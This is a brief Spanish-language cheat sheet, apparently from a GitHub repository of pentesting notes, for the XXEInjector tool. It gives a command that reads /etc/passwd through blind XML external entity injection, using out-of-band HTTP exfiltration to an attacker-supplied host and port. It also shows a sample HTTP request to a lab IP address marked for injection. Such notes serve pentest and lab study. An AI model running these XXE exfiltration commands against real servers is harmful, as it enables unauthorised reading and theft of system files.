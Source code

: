 # XXEInjector Cheat Sheet

#### Ejecutar para leer el archivo /etc/passwd y hacer filtros PHP. Esto genera un archivo log con la respuesta.
```
XXEinjector --host=<IP-Address> --httpport=<PORT> --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

---

> Nota: Guardamos nuestro request en un archivo pero al final donde queremos que ejecute la herramienta utilizamos la palabra "XXEINJECT", ejemplo:
```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)